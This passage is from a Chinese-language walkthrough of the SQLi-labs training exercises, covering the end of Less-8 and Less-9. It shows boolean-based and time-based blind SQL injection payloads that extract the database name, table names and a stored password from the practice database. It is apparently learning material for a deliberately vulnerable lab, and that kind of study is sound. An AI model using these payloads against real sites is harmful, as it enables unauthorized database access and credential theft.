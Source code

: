 （从0开始计数）最后得到第二个字段名为`first_name`,第三个字段为`last_name`,第四个为`user`,第五个为`password`

![image-20201008194004605](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/20201008201804.png)

**记录爆破(以`passowrd、user`字段为例)**

> ?id=1' and left((select password from users order by id limit 0,1),1)='d' --+

![image-20201008200218268](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/20201008201805.png)

得到第一个用户名为`dumb`,第一个密码也是`dumb`

方法二 时间延迟型

同Less-5

## 0X09Less-09

**GET - Blind - Time based. -  Single Quotes  (基于时间的GET单引号盲注)**

不管怎么输入，回显总是you are ...

![image-20201110165514164](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110165514164.png)

考虑时间盲注

存在延时

![image-20201110165615569](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110165615569.png)

爆库payload

```
?id=1' and if(length(database())=4 , sleep(3), 1) --+
```

发现当?id=1' and if(length(database())=8 , sleep(3), 1) --+时明显延迟，所以库名长为8

```
?id=1' and if(left(database(),1)='s' , sleep(3), 1) --+
```

发现明显延迟说明库名第一个字符为 's'

继续爆破?id=1' and if(left(database(),8)='security' , sleep(3), 1) --+

说明库名为 'security'

爆表payload

```
?id=1' and if(left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' , sleep(3), 1) --+
```

使用limit x,1 查询第x个表名，和爆破库名一样，第一个表名为referer。终于，在第三个表爆到users这个表，显然是用户信息表。

爆字段payload

定向爆破password和username，这里就不解释了，第五题里面写的比较详细了。
